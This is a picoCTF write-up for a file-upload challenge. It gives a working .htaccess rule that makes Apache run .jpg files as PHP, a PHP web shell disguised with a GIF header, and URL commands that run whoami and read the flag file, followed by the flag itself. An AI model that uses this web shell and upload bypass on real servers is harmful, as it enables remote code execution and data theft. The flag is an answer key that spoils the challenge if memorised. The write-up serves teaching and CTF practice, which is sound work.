


## Challenge Description


## This provided a link to the challenge


### Solution Steps: 
---
1- we check which files are allowed for uploading.

2- we found out that all files are allowed except .php and .txt files.

3- we look at hints.


### Hint 1
Apache can be tricked into executing non-PHP files as PHP with a `.htaccess` file.

### Hint 2
Try uploading more than just one file.

---

**What is a htaccess file?**

The `.htaccess` file is a distributed configuration file used primarily by the Apache web server. It allows for directory-specific configuration changes without modifying the main server configuration files. While `.htaccess` is not a PHP file itself, it significantly impacts how PHP applications are served and behave on an Apache server.

---
### Solution:

1- I create a file named `.htaccess` with one line which is:

```
AddType application/x-httpd-php .jpg

```
--> It means that line will tell the apache to handle every `.jpg` file as a php script with no problem.

2- I create a file named `shell.jpg` which contains :
```
GIF89a;
<?php system($_GET['0']); ?>
```
--> First line means that the file is an image **(for validation only)**.

--> Second line means that the url will accept a parameter named `0` and whatever it accepts the system will execute it as a system command. 

3- This created a remote code execution shell for ourselves so we try: http://amiable-citadel.picoctf.net:52940/images/shell.jpg?0=whoami , And we got www-data.



4- Since we have www-data access, let us try to read the flag with : http://amiable-citadel.picoctf.net:52940/images/shell.jpg?0=cat+/var/www/flag.txt

### And the flag is : picoCTF{s3rv3r_byp4ss_4961368b}

**Challenge Completed**
